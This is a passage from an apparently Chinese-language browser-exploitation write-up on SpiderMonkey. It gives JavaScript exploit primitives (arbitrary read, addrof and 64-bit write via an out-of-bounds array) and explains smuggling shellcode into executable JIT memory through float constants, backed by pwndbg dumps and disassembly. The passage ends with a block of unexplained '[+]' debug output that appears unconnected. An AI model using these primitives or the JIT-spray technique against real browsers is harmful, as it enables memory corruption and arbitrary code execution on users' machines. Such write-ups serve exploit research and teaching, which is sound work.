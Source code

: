 具体实现代码如下, `spidermonkey` 的对象都会加上一个 `tag` ，读的时候把它去掉就行

```
function readptr(addr)`{`
        oob64[16] = i2f(addr/2);
        oob[34] = 0x100;
        ptrleak = new Uint32Array(buf[7]);
        leak = ptrleak[0] + (ptrleak[1]&amp;0x7fff)*0x100000000;
        return leak;
`}`
function addrof(obj)`{`
        buf[7].leak = obj;
        return readptr(buf7_slots_addr);
`}`
function write64(addr,data)`{`
        oob64[16] = i2f(addr/2);
        oob[34] = 0x100;
        towrite = new Float64Array(buf[7]);
        towrite[0] = i2f(data);
`}`
```

### <a class="reference-link" name="jit%20%E5%86%99%E5%85%A5%20shellcode"></a>jit 写入 shellcode

因为`jit` 中的代码有可执行权限，如果可以往`jit` 中写入shellcode, 那么劫持控制流之后直接跳到`jit` 执行就完事了，但是`spidermonkey` 的`jit` 是`r_x` 权限的，不可直接写入，但是我们可以像下面这样把数据传入到`r_x` 段

```
print(d2f(0x41424344,0x61626364));
print(d2f(0x13371337,0x13371337));
//2393736.760815071      
//4.183559446463817e-216 
function tmp()`{`
        const a=2393736.760815071;
        const b=4.183559446463817e-216;
`}`
for(let i=0;i&lt;100000;i++)tmp();
//.....
pwndbg&gt; search -t qword 0x4142434461626364                           
                0x15b165d2926e movsxd rsp, dword ptr fs:[rdx + 0x61] 
pwndbg&gt; x/20gx 0x15b165d2926e                                  
0x15b165d2926e: 0x4142434461626364      0x1337bb49c85d894c     
0x15b165d2927e: 0x894c133713371337      0x00000000b948c05d     

pwndbg&gt; x/20gx 0x15b165d2926e+6+8                              
0x15b165d2927c: 0x1337133713371337      0x0000b948c05d894c     
0x15b165d2928c: 0x45f7fff980000000      0x04840f00000001fc
```

可以看到`0x4142434461626364` 和`0x1337133713371337` 都被存入到了`jit` 上，但是他们内存是不连续的，原本的jit代码如下

```
pwndbg&gt; x/10i 0x15b165d2926e-6                              
   0x15b165d29268:      mov    QWORD PTR [rbp-0x40],r11     
   0x15b165d2926c:      movabs r11,0x4142434461626364       
   0x15b165d29276:      mov    QWORD PTR [rbp-0x38],r11     
   0x15b165d2927a:      movabs r11,0x1337133713371337       
   0x15b165d29284:      mov    QWORD PTR [rbp-0x40],r11     
   0x15b165d29288:      movabs rcx,0xfff9800000000000       
   0x15b165d29292:      test   DWORD PTR [rbp-0x4],0x1
```


[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96